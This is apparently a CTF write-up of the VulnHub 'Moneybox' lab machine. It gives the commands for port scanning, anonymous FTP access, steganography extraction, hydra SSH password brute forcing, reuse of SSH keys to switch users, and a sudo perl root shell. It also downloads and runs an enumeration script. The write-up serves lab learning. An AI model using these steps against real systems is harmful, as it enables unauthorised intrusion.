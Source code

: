 ```yaml
---
title: "Moneybox"
date: 2024-10-21
draft: false
summary: "Writeup for Moneybox CTF challenge on VulnHub."
tags: ["linux", "steganography", "suid"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/moneybox/cover.webp"
  caption: "Moneybox VulnHub Challenge"
  alt: "Moneybox cover"
platform: "VulnHub"
---
```


Moneybox is a boot2root challenge from Vulnhub. It has 3 flags, and our goal is to capture all of them.
<!--more-->
To download the moneybox, click on the link given below: 
- https://www.vulnhub.com/entry/moneybox-1,653/

## Recon

I performed an **nmap** aggressive scan on the target to find open ports and the services running on them along with some extra information.

```shell
nmap -A -p- --min-rate 10000 TARGET -oN moneybox.nmap
```

| **Port** | **Service** |
| -------- | ----------- |
| 21       | ftp         |
| 22       | ssh         |
| 80       | http        |

![](https://cdn.ziomsec.com/moneybox/1.webp)

## Initial Foothold

Since the **nmap** scan discovered **ftp** with anonymous login allowed, I logged into the server and found an image. I then downloaded it on my system.

```shell
ftp TARGET
# username: anonymous | password: anonymous
> ls
> get trytofind.jpg
```

![](https://cdn.ziomsec.com/moneybox/2.webp)

![](https://cdn.ziomsec.com/moneybox/3.webp)

I then viewed exif data using **binwalk** and **exiftool** but didn't find anything interesting.

```shell
binwalk IMAGE
exiftool IMAGE
```

![](https://cdn.ziomsec.com/moneybox/4.webp)

I then tried extracting information stored inside it using **steghide** but it asked for a password.

```shell
steghide --extract -sf IMAGE
```

![](https://cdn.ziomsec.com/moneybox/5.webp)

Since I did not know the password, I moved on to the next open port i.e 80.

![](https://cdn.ziomsec.com/moneybox/6.webp)

The webpage did not reveal file or directory, so I performed directory brute force using **dirb** and found a *blogs* directory

```shell
dirb http://TARGET/
```

![](https://cdn.ziomsec.com/moneybox/7.webp)

I visited the blogs directory but again didn't get any information upfront. However, when I viewed the page source, I found another directory that was commented out at the very bottom of the page.

```shell
curl http://TARGET/blogs/index.html
```

![](https://cdn.ziomsec.com/moneybox/8.webp)

I accessed the secret directory and found the secret key.

```shell
curl -s http://TARGET/S3cr3t-T3xt/ | tr -d '\n'
```

![](https://cdn.ziomsec.com/moneybox/9.webp)

This revealed a password. I used this password to extract the data that was hidden in the image.

```shell
steghide --extract -sf IMAGE
```

![](https://cdn.ziomsec.com/moneybox/10.webp)

The hidden data revealed 2 things:
- there was a user called *renu*.
- *renu* had a weak password.

The only service running on the target where password would be required was **ssh** - so I used **hydra** to crack *renu*'s password using **rockyou.txt**.

```shell
hydra -l 'renu' -P /usr/share/wordlists/rockyou.txt TARGET ssh
```

![](https://cdn.ziomsec.com/moneybox/11.webp)

After finding the credentials, I logged in as *renu* and captured the first flag.

![](https://cdn.ziomsec.com/moneybox/12.webp)
![](https://cdn.ziomsec.com/moneybox/13.webp)

## Privilege Escalation
### Horizontal Privilege Escalation

I moved back to view other users and found another flag.

![](https://cdn.ziomsec.com/moneybox/14.webp)

I then downloaded **linux smart enumeration** script to enumerate ways to escalate my privileges.
- https://github.com/diego-treitos/linux-smart-enumeration

```shell
wget "https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh" -O lse.sh
chmod +x lse.sh
.\lse.sh
```

![](https://cdn.ziomsec.com/moneybox/15.webp)

![](https://cdn.ziomsec.com/moneybox/16.webp)

Since this revealed nothing special, I tried looking inside lily's home directory and found the `.ssh` folder.

![](https://cdn.ziomsec.com/moneybox/17.webp)

Reading the **authorized_keys** file reveals that renu was authorized to log in as lily without a password.

![](https://cdn.ziomsec.com/moneybox/18.webp)

I hence logged in as lily and checked my sudo permissions. 

## Vertical Privilege Escalation

I found that lily could execute **perl** as sudo without a password.

```shell
sudo -l
```

![](https://cdn.ziomsec.com/moneybox/19.webp)

I visited **GTFObins** to look for privilege escalation methods using **perl** and found a way to do so.
- https://gtfobins.github.io/

![](https://cdn.ziomsec.com/moneybox/20.webp)

I executed the code to spawn a bash shell and captured the final flag from **root** directory.

```shell
sudo perl -e 'exec "/bin/bash";'
cd /root
cat .root.txt
```

![](https://cdn.ziomsec.com/moneybox/21.webp)

## Conclusion

Hence here's the summary of how I pwned the machine:
- I found an image in the ftp server and downloaded it onto my system.
- I found the password required to extract data from this image from the webserver after I did some recon.
- The data from image revealed that the user `renu` had a weak password so I cracked the ssh password using **hydra**.
- I logged in as renu and then switched to lily after I found renu's public key inside lily's authorized_keys folder.
- I then found that lily could run `perl` as root without a password.
- I used **perl** to spawn a shell as root and capture the final flag from the `/root` folder.

That's it from my side. Until next time:)

---
